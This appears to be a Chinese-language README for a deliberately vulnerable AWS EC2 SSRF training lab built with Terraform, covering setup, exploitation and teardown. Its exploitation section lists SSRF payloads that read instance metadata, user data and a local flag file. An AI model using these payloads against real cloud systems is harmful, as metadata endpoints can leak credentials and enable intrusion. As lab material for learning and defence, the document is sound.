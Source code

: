 # AWS EC2 SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS EC2 SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 EC2 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/elastic_computing_service/ec2_ssrf/
```

配置 AWS 访问凭证

```shell
aws configure
```

![img](../../../images/1651044031.png)

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1650428695.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

![img](../../../images/1650429022.png)

## 漏洞利用

在存在 SSRF 漏洞的 EC2 上，我们可以利用 SSRF 读取 EC2 的元数据、用户数据等信息。

读取元数据

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1650429215.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://169.254.169.254/latest/user-data
```

![img](../../../images/1650429432.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1650429930.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
